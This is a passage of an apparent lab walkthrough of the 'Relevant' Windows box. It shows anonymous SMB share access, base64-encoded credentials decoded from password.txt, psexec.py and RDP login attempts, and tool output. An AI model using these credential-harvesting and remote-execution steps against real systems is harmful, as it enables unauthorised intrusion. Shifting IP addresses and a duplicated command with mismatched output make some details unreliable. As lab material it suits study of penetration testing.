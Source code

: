 kali#**_smbclient //10.10.236.43/nt4wrksv_**

NO PASSWORD

Downloading password.txt ...

```txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

1. Bob - !P@$$W0rD!123

2. Bill - Juw4nnaM4n420696969!$$$

**Executing PSExec with Python using discovered credentials:**

_kali#python3 psexec.py bill:'Juw4nnaM4n420696969!$$$'@10.10.195.120_

```txt
[-] Authenticated as Guest. Aborting
```

Bill's account seems to be rahter not working or invalid.

_kali#python3 psexec.py bill:'Juw4nnaM4n420696969!$$$'@10.10.195.120_

```txt
[*] Requesting shares on 10.10.150.11.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share nt4wrksv
[*] Uploading file lLOoIWuZ.exe
[*] Opening SVCManager on 10.10.150.11.....
[-] Error opening SVCManager on 10.10.150.11.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

Bob is an active user.

**Trying RDP with found credentials:**

_kali# xfreerdp /u:bob /p:!P@$$W0rD!123 /v:10.10.195.120:3389_

```txt
[19:27:40:103] [1662:1663] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[19:27:40:103] [1662:1663] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[19:27:40:118] [1662:1663] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[19:27:40:118] [1662:1663] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[19:27:40:453] [1662:1663] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[19:27:40:485] [1662:1663] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[19:27:40:485] [1662:1663] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
[19:27:41:203] [1662:1663] [WARN][com.freerdp.crypto] - Certificate verification failure 'unable to get local issuer certificate (20)' at stack position 0
[19:27:41:203] [1662:1663] [WARN][com.freerdp.crypto] - CN = Relevant
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.10.150.11:3389) 
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] - Common Name (CN):
[19:27:41:203] [1662:1663] [ERROR][com.freerdp.crypto] -        Relevant
```